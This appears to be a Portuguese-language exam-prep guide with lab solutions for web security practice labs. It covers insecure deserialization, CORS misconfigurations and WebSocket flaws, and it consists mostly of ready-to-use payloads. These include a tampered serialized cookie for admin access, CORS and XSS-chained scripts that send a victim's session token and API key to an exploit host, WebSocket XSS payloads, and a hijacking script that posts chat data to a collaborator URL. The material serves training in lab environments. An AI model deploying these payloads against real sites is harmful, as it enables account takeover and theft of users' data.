 # Outros

Aqui temos um compilado de vulnerabilidades que provavelmente não estarão no seu exame, mas é bom saber para evitar surpresas.

Possibilidade: $${\color{green}baixa}$$.

<br>

## Laboratórios

## Insecure Deserialization

Essa vulnerabilidade tem grande chance de aparecer na terceira etapa, mas na segunda é mais raro de acontecer.

Caso ela apareça, será no sentido do laboratório abaixo.

<br>

**Modifying Serialized Data Types**

Pegue o Cookie em base64, decode-o e altere o username para "administrator".

Troque o tipo do parâmetro `access_token` de "s" para "i":
```
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
```

<br>

### CORS

**Basic Origin Reflection**
```
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='//malicious-website.com/log?key='+this.responseText;
};
```

<br>
<br>

**CORS vulnerability with trusted insecure protocols**

Identifique no código-fonte que os detalhes da conta são requisitados através de uma request AJAX e que contém o cookie de sessão do usuário na resposta.

![image](https://github.com/user-attachments/assets/6caa6278-1879-4f4d-8ee4-e17c1598b7bd)

Teste se a aplicação permite a interação com subdomínios. Se a resposas incluir o header `Access-Control-Allow-Origin` o Origin refltido, o CORS está vulnerável.
```
Origin: http://subdomain.TARGET.NET
```

Em seguida, você precisa achar o XSS no parâmetro `productId` que está subdomínio que o lab contém.

![image](https://github.com/user-attachments/assets/68aa4bd4-cf1d-4ac6-a864-9b832daf4184)

Coloque o código abaixo no servidor de exploit e entregue a vitima para roubar o session token e a chave de API.
```
<script>
    document.location="http://stock.TARGET.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://TARGET.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://EXPLOIT.NET/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

<br>
<br>

**Null Origin Trusted**

Identifique a configuração insegura do CORS ao enviar o header `Origin: null` e chechar que a resposta reflete esse valor.

O payload abaixo pode funcionar para obter a API da conta do administrator:
```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://TARGET.net/account_api/?EPOCHtime=1679134272000',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='https://EXPLOIT.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```

<br>

### Web Sockets

Aperece na página de **Live Chat**.

<br>

**Manipulating WebSocket Messages to Exploit Vulnerabilities**

Escreva algo no Live Chat. Vá para a aba WebSocket History, selecione a request e envie para o Repeater.

Altere a mensagem com um payload malicioso:
```
<img src=123 onerror=alert()>
```

<br>
<br>

**Manipulating the WebSocket Handshake to Exploit Vulnerabilities**
```
X-Forwarded-For: 1.1.1.1
<img src=1 oNeRrOr=alert`1`>
```

<br>
<br>

**Cross-site WebSocket Hijacking**
```
<script>
    var ws = new WebSocket('wss://your-websocket-url/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```




